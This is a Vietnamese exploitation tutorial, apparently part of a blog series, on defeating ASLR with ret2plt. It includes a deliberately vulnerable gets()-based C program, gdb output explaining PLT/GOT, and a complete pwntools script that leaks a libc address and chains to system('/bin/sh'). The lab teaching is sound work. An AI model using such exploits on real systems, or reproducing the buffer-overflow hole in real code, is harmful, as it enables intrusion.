 Chào mọi người, sau phần 5 - bypass Stack Canary, phần 6 mình sẽ hướng dẫn mọi người cách bypass cơ chế ASLR trên linux 
## 1. ASLR là gì?
ASLS viết tắt của Address space layout randomization, tức là ngẫu nhiên hóa không gian địa chỉ. Từ phần 1 đến phần 5 chúng ta luôn tắt cơ chế này đi, bằng dòng lệnh sau:
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`, nhằm tắt chế độ này đi. Khi chế độ này được bật, các thư viện sử dụng trong quá trình chạy tệp nhị phân sẽ được tải vào 1 địa chỉ bộ nhớ khác, để bật chế độ này, ta sửa giá trị của randomize_va_space thành 2: `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space`. Cụ thể, để dễ hiểu hơn, mình sẽ có 1 file C như sau:

vuln.c
```
#include <stdio.h>
#include <string.h>

int main(){
	char buff[10];
	puts("String: ");
	gets(buff);
	return 0;
}
```
Tiến hành compile: `gcc -m32 vuln.c -o vuln-32 -no-pie -mpreferred-stack-boundary=2 
`, mình tắt stackcanary để tập trung vào ASLR nha.

Sử dụng `ldd vuln-32` để kiểm tra thư viện được sử dụng, ta được kết quả địa chỉ thư viện thay đổi sau mỗi lần chạy.

Có thể thấy sau mỗi lần sử dụng, địa chỉ của libc đã bị thay đổi, vì vậy, đối với việc sử dụng để bypass NX bằng ret2libc, chúng ta sẽ không thể làm được vì không thể biết được địa chỉ của libc này.
## 2. Bypass ASLR bằng ret2plt 
Đầu tiên chúng ta cần hiểu PLT và GOT là gì. PLT (Procedure linkage table) và GOT (global offset table) là các phần trong tệp ELF nhằm xử lý các liên kết động. Cụ thể, khi trong chương trình sẽ có các hàm, ví dụ như ở trên sẽ là puts và gets, trong quá trình compile, nhằm giảm thiểu kích thước của tệp nhị phân, 2 function này sẽ không được compile cùng với chương trình. Thay vào đó, mỗi khi chạy chương trình đã được biên dịch, PLT và GOT sẽ phát huy tác dụng.

Mở gdb để phân tích file `vuln` ở trên, thực hiện disassemble hàm main ta được kết quả như sau:
```
gef➤  disassemble main
Dump of assembler code for function main:
   0x08049166 <+0>:     push   ebp
   0x08049167 <+1>:     mov    ebp,esp
   0x08049169 <+3>:     push   ebx
   0x0804916a <+4>:     sub    esp,0xc
   0x0804916d <+7>:     call   0x80490a0 <__x86.get_pc_thunk.bx>
   0x08049172 <+12>:    add    ebx,0x2e82
   0x08049178 <+18>:    lea    eax,[ebx-0x1fec]
   0x0804917e <+24>:    push   eax
   0x0804917f <+25>:    call   0x8049050 <puts@plt>
   0x08049184 <+30>:    add    esp,0x4
   0x08049187 <+33>:    lea    eax,[ebp-0xe]
   0x0804918a <+36>:    push   eax
   0x0804918b <+37>:    call   0x8049040 <gets@plt>
   0x08049190 <+42>:    add    esp,0x4
   0x08049193 <+45>:    mov    eax,0x0
   0x08049198 <+50>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x0804919b <+53>:    leave  
   0x0804919c <+54>:    ret    
End of assembler dump.
```
Có thể thấy, chương trình không chuyển đến hàm puts mà là `puts@plt` tại địa chỉ `0x8049050`, đặt breakpoint `0x0804917f` và chạy chương trình, kết quả là:
```
→  0x804917f <main+25>        call   0x8049050 <puts@plt>
   ↳   0x8049050 <puts@plt+0>     jmp    DWORD PTR ds:0x804c008
       0x8049056 <puts@plt+6>     push   0x10
       0x804905b <puts@plt+11>    jmp    0x8049020
       0x8049060 <_start+0>       xor    ebp, ebp
       0x8049062 <_start+2>       pop    esi
       0x8049063 <_start+3>       mov    ecx, esp
```
Kiểm tra địa chỉ tại `0x804c008` ta được:

```
gef➤  x/s 0x804c008
0x804c008 <puts@got.plt>:       "V\220\004\b"
```
Tiếp đến chương trình nhảy đến puts@got.plt, đây chính là nơi hàm puts được lưu trong thư viện libc.
Vì vậy, tóm lại, chỉ cần gọi function trong bảng plt, nó sẽ tự động thực hiện tìm kiếm địa chỉ của func trong got và thực hiện nó.

Thêm 1 điểm đặc biệt nữa, tuy địa chỉ của libc bị thay đổi, nhưng offset giữa nó và các function sẽ không thay đổi. Offset này ta có thể lấy được với libc.sym trong bảng symbols, vì vậy chỉ cần lấy ra được địa chỉ của function, ta có thể tính được địa chỉ của libc.

## 3. Tiến hành viết file exploit
Đầu tiên, cần xem xét function nào có thể sử dụng được để lấy địa chỉ. 
```
gef➤  info functions 
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  __libc_start_main@plt
0x08049040  gets@plt
0x08049050  puts@plt
0x08049060  _start
0x08049090  _dl_relocate_static_pie
0x080490a0  __x86.get_pc_thunk.bx
0x080490b0  deregister_tm_clones
0x080490f0  register_tm_clones
0x08049130  __do_global_dtors_aux
0x08049160  frame_dummy
0x08049166  main
0x080491a0  _fini
```
Ta thấy ở đây có func puts sẽ in ra, vì vậy ta sẽ sử dụng nó để in ra địa chỉ của nó trong libc (puts@got), từ đó tính toán ra libc address.

Đầu tiên tìm địa chỉ của put@got bằng cách gọi hàm puts@plt với tham số đầu vào là puts@got, như vậy địa chỉ của puts@got sẽ được in ra.
```
from pwn import *

context(os='linux', arch='i386')
p = process('./vuln-32')

elf = ELF('./vuln-32')
libc = elf.libc

puts_got = elf.got['puts']         #puts@plt 
puts_plt = elf.plt['puts']         #argument for puts@plt function
main = elf.sym['main']             #return address after puts function 
payload = b'A'*18 + p32(puts_plt) + p32(main) + p32(puts_got)

p.sendline(payload)
p.readline()
data_recv = p.readline()
leaked_address = u32(data_recv[:-1])

libc.address = leaked_address - libc.sym['puts']
```

Cuối cùng thực hiện bypass NX bằng ROP, ta được file exploit.py như sau:
```
from pwn import *

context(os='linux', arch='i386')
p = process('./vuln-32')

elf = ELF('./vuln-32')
libc = elf.libc


puts_got = elf.got['puts'] #puts@plt 
puts_plt = elf.plt['puts'] #argument for puts@plt function
main = elf.sym['main'] #return address after puts function 
payload = b'A'*18 + p32(puts_plt) + p32(main) + p32(puts_got)

p.sendline(payload)
p.readline()
data_recv = p.readline()
leaked_address = u32(data_recv[:-1])

libc.address = leaked_address - libc.sym['puts']

rop = ROP(libc)
rop.raw("A"*18)
payload = b"A"*18 + b'\x90'*8
rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))
p.sendline(rop.chain())

p.interactive()
```

Link github file series: https://github.com/vuongle-vigo/BinaryExploit

Link github bài này: https://github.com/vuongle-vigo/BinaryExploit/tree/master/Buffer%20Overflow/ASLR_Bypass
